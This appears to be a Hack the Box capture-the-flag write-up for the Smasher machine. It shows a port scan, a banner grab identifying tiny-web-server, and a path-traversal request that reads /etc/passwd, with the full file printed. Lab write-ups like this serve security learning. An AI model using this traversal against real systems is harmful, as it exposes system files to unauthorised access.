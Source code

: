 
# Hack the Box, Smasher - 10.10.10.89

## Scan

When performing a quick port scan, we find ports 22 and 1111 are open.
```sh
$ nmap -T5 -p- 10.10.10.89
Nmap scan report for 10.10.10.89
Host is up.
Not shown: 63245 closed ports, 2288 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
1111/tcp open  lmsocialserver
```

By banner grabbing port 1111 we find it's `shenfeng tiny-web-server`.
```sh
$ curl -I 10.10.10.89:1111
HTTP/1.1 200 OK
Server: shenfeng tiny-web-server
Content-Type: text/html
```

A quick web search gives us <https://github.com/shenfeng/tiny-web-server>. When inspecting the repository, we quickly find an issue that allows us to read outside of the `wwwroot`<sup>1</sup>.

So, apparently we can do this:
```sh
$ curl 10.10.10.89:1111//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
www:x:1000:1000:www,,,:/home/www:/bin/bash
smasher:x:1001:1001:,,,:/home/smasher:/bin/bash
```
